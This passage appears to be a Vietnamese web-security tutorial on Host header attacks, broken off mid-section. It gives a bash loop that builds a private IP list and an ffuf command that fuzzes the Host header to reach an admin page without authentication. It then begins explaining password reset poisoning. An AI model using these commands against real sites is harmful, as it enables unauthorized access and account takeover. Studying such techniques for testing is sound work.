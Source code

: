 Nếu ứng dụng web kiểm tra các IP cụ thể từ mạng nội bộ, việc thử nghiệm thủ công sẽ gặp khó khăn vì phải kiểm tra rất nhiều địa chỉ IP. Tuy nhiên, ta có thể **fuzz** (thử nghiệm tự động) **Host header** để tìm các địa chỉ IP có thể bỏ qua kiểm tra xác thực.

**Công cụ Fuzzing:**

Chúng ta có thể sử dụng công cụ như **ffuf** để fuzz **Host header** và thử với các địa chỉ IP từ dải **192.168.0.0-192.168.255.255** (các địa chỉ IP riêng tư).

**Bước 1: Tạo danh sách địa chỉ IP:**

Chúng ta có thể sử dụng một script bash đơn giản để tạo danh sách các địa chỉ IP trong dải `192.168.0.0-192.168.255.255`:
```bash
for a in {1..255}; do
  for b in {1..255}; do
    echo "192.168.$a.$b" >> ips.txt
  done
done
```

**Bước 2: Sử dụng **ffuf** để fuzz Host header:**
```bash
ffuf -u http://IP:PORT/admin.php -w ips.txt -H 'Host: FUZZ' -fs 752
```
Trong đó:
- `FUZZ` là vị trí sẽ được thay thế bởi các giá trị trong danh sách `ips.txt`.
- `-fs 752` giúp lọc các phản hồi có kích thước 752 byte, cho phép chúng ta dễ dàng xác định các phản hồi khác biệt (tức là các phản hồi hợp lệ).

**Kết quả:**
Kết quả sẽ hiển thị các địa chỉ IP mà khi được thay vào **Host header**, ứng dụng web sẽ trả về phản hồi hợp lệ, cho phép kẻ tấn công truy cập vào khu vực quản trị mà không cần phải xác thực.

---
# 10. Tấn Công Password Reset Poisoning qua Host Header

#### **1. Tổng Quan về Password Reset Poisoning**

**Password reset poisoning** là một lỗ hổng phổ biến xảy ra khi một ứng dụng web sử dụng không an toàn **Host header** để tạo liên kết đặt lại mật khẩu. Lỗ hổng này có thể bị khai thác nếu ứng dụng web sử dụng **Host header** để tạo liên kết tuyệt đối trong các thông báo email đặt lại mật khẩu. Nếu kẻ tấn công có thể thay đổi **Host header**, họ có thể làm cho liên kết trong email chỉ đến một tên miền mà kẻ tấn công kiểm soát, từ đó lấy cắp mã thông báo đặt lại mật khẩu của người dùng.

#### **2. Phát Hiện Lỗ Hổng**

**Bước 1: Kiểm tra ứng dụng web**

Trong ví dụ này, khi truy cập ứng dụng web, người dùng sẽ thấy một màn hình đăng nhập đơn giản. Sau khi đăng nhập thành công, ứng dụng hiển thị một số thông tin người dùng cơ bản. Tuy nhiên, khi kiểm tra lưu lượng mạng, chúng ta nhận thấy ứng dụng sử dụng các liên kết tuyệt đối để tải các tệp CSS và JavaScript.

**Bước 2: Thử nghiệm Host Header**

